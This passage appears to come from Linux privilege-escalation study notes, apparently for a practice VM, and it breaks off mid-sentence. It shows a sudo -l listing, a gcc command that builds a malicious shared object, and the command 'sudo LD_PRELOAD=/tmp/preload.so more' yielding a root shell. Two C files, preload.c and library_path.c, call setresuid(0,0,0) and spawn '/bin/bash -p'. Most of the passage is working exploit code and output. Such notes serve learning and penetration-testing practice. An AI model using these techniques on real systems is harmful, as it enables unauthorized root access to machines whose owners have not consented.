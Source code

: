 ```
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
### Create a shared object:
```
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
In this step: We are directly converting **C file** to **shared obj** file (**without making obj file** in the middle)
```
step1: $ gcc -c -Wall -Werror -fpic foo.c
step2: $ gcc -shared -o libfoo.so foo.o
```
Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object
```
$ sudo LD_PRELOAD=/tmp/preload.so more

root@debian:/home/user# groups
root
```
#### We can use any other programs which are allowed (given in the output of sudo -l)

```
 $ cat tools/sudo/preload.c 

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");   ------->
	setresuid(0,0,0);         ------->
	system("/bin/bash -p");
}

 $ cat tools/sudo/library_path.c 
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");    ----->
	setresuid(0,0,0);               ----->    
	system("/bin/bash -p");
}

```
setsuid sets:
